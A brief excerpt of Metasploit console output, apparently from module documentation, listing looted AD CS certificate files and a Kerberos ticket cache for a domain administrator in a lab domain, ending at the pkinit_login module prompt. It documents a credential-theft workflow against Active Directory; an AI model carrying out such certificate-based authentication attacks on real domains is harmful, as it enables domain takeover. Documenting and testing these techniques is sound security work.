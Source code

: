 ```
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: administrator, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216181438_default_172.30.239.85_mit.kerberos.cca_460041.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```
